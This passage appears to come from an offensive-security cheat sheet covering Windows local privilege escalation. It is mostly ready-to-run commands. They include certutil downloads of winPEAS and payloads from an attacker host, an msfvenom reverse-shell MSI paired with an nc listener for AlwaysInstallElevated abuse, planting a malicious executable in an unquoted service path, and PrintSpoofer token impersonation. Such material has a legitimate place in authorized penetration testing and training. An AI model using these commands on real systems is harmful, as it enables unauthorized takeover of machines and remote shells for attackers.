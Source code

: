 9) Local privilege escalation checks
```bash
# Quick OS/user/context checks
whoami
whoami /priv
systeminfo
ipconfig /all
net localgroup administrators
net user
net user $USER

# Download and run winPEAS (start a web server on attacker)
cd ~/tools && python3 -m http.server 80
# On victim
certutil -urlcache -f http://$ATTACKER_IP/winPEASx64.exe C:\Windows\Temp\winpeas.exe
C:\Windows\Temp\winpeas.exe
```

10) Common privesc paths

- AlwaysInstallElevated
```cmd
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
If both return 0x1:
```bash
# Generate MSI payload (lab use; may be flagged in real environments)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f msi -o aie.msi
# Serve and download
python3 -m http.server 80
# On victim
certutil -urlcache -f http://$ATTACKER_IP/aie.msi C:\Windows\Temp\aia.msi
# Listener
rlwrap -cAr nc -lvnp 4444
# Execute
msiexec /quiet /qn /i C:\Windows\Temp\aia.msi
```

- Unquoted service path
```cmd
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows" | findstr /i " "
# Inspect a target service
sc qc "VulnService"
icacls "C:\Program Files\Vuln App\"   # Check write perms
# If writable, place a malicious exe at the vulnerable path segment and restart the service:
copy C:\Windows\Temp\payload.exe "C:\Program Files\Vuln App\Program.exe"
sc stop "VulnService" && sc start "VulnService"
```

- Token impersonation (SeImpersonatePrivilege)
```cmd
whoami /priv  # Look for SeImpersonatePrivilege: Enabled
```
If enabled (and OS vulnerable to your chosen technique), use a known tool (lab context), e.g., PrintSpoofer:
```cmd
# On victim (assuming you uploaded PrintSpoofer64.exe)
C:\Windows\Temp\PrintSpoofer64.exe -i -c cmd.exe
```
